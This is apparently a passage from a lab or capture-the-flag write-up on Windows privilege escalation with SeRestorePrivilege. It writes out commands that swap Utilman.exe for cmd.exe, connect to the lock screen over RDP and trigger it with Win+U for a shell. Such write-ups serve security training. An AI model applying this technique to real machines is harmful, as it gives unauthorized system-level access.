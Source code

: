 # SeRestorePrivilege

<figure><img src="../../../.gitbook/assets/Heist-10.png" alt=""><figcaption></figcaption></figure>



Now using this page: [https://github.com/gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

&#x20;![](../../../.gitbook/assets/Heist-11.png)



```
ren "C:/Windows/System32/Utilman.exe"  Utilman.old
```

```
ren "C:/Windows/SYstem32/cmd.exe" Utilman.exe
```

Now we can get to the lockscreen with rdesktop:

```
rdesktop 192.168.180.254
```

<figure><img src="../../../.gitbook/assets/Heist-12.png" alt=""><figcaption></figcaption></figure>

Now press `win + U`&#x20;

<figure><img src="../../../.gitbook/assets/Heist-14.png" alt=""><figcaption></figcaption></figure>

We can transfer rcat and execute to get a proper shell:

<figure><img src="../../../.gitbook/assets/Heist-16.png" alt=""><figcaption></figcaption></figure>
